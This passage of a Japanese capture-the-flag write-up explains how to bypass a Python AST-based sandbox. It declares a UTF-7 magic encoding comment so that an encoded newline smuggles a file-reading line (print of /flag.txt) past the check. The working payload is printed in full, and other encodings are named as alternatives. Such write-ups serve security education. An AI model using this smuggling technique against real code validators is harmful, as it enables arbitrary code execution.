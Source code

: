 ```python
def get_fn_name(source: str) -> str | None:
    root = ast.parse(source)
    if type(root) is not ast.Module:
        return None
    if len(root.body) != 1:
        return None

    fn = root.body[0]
    if type(fn) is not ast.FunctionDef:
        return None

    fn.body.clear()
    if not re.fullmatch(r"def \w+\((\w+(, \w+)*)?\):", ast.unparse(fn)):
        # You must define a function without decorators, type annotations, and so on.
        return None

    return str(fn.name)
```
で、ASTで制限をかけることによって簡単にRCEができないようになっています。
なんとかしてここをbypassすることはできないでしょうか？

`ast.parse`の挙動を色々試してみると、どうやらコメントの情報は消えることがわかります。
ところで、Pythonにはmagic commentと呼ばれるエンコーディングを指定する機能があります:

- https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations
- https://docs.python.org/3/library/codecs.html#standard-encodings

magic commentは`get_fn_name`の判定時は単なるコメントですが、
```python
    spec = util.spec_from_file_location("tmp", file.name)
    spec.loader.exec_module(util.module_from_spec(spec))
```
ではmagic commentとして認識されるので、その解釈の差異をつくことによってbypassができそうです。

実際、UTF-7を使うと以下でbypassできます:
```
# coding: utf_7
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
__EOF__
```

`+AAo-`はUTF-7だと`\n`の改行文字に相当するので、モジュールとしては
```python
def f(x):
    return x

print(open("/flag.txt").read())
```
として解釈されます。紀元前に流行ったXSSテクニックの応用です。

その他、`raw_unicode_escape`や`unicode_escape`などでもbypassが可能です。

### Solver


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。